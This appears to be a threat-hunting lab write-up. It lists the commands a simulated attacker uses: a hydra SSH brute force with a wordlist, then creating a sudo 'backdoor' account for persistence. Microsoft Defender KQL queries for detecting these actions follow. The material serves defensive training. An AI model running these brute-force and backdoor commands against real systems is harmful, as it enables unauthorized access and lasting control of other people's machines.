 # Threat Event (Brute Force)

## Steps the "Bad Actor" took to Create Logs and IoCs:

1. Create a wordlist for brute force attempt. `nano ~/custom-wordlist.txt`
2. Install hydra for brute force attack against "target machine". `sudo apt install hydra`
3. Execute hydra using the wordlist to get the correct password. `hydra -l <victim username> -P ~/custom-wordlist.txt ssh://victim IP`
4. SSH to target machine. `ssh user@target IP`
5. Create backdoors for persistence:
```
sudo useradd -m backdoor
sudo passwd backdoor
sudo usermod -aG sudo backdoor
```

## Tables Used to Detect IoCs:

| **Parameter Name**     | **Info** | **Description**                                                                                                             
|------------------------|----------|--------------------------------------------------------------------------------------------------------------------------|
| DeviceProcessEvents       | [Link](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table)       | Used to detect the execution of suspicious processes, such as reverse shells and backdoor scripts.                                           |
| DeviceNetworkEvents    | [Link](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table)       | Used to detect suspicious network connections, such as outbound connections to external IPs or internal network communications, which could indicate data exfiltration or lateral movement.                                                       |
| DeviceFileEvents    | [Link](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table) | Used to detect file creations, modifications, or suspicious file activity, such as setting up backdoor scripts and creating SSH key files for unauthorised access.                     |
| DeviceLogonEvents    | [Link](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicelogonevents-table) | Used to detect failed login attempts, brute force attacks, and logon activity from suspicious or unauthorised accounts.                     |

---

## Related Queries:

```kql
// Detect login events, such as login failures or successes.
DeviceLogonEvents
| where ActionType == "LogonFailed" or ActionType == "LogonSuccess"
| summarize FailedAttempts = count() by AccountName, DeviceName, bin(Timestamp, 5m)
| where FailedAttempts > 5

// Detect the copying, moving and/or encryption of files.
DeviceFileEvents
| project Timestamp, DeviceId, DeviceName, ActionType, FileName, FolderPath, InitiatingProcessAccountDomain, InitiatingProcessAccountName, InitiatingProcessFileName, InitiatingProcessId

// Detect processes that might have been initiated be a malicious actor. 
DeviceProcessEvents
| project Timestamp, DeviceName, AccountName, ProcessCommandLine

// Detect network events from known IP ranges
DeviceNetworkEvents
| where ActionType == "ConnectionSuccess"
| where RemoteIP != "Internal"  
| project Timestamp, DeviceName, RemoteIP, RemotePort, Protocol, InitiatingProcessAccountName
```

---

## Created By:
- **Author Name**: Ruben Clarke
- **Author Contact**: https://www.linkedin.com/in/itsrubenclarke/
- **Date**: April 26, 2025

## Validated By:
- **Reviewer Name**:
- **Reviewer Contact**:
- **Validation Date**:

---

## Additional Notes:
**None**


## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `April 26, 2025`  | `Ruben Clarke` 
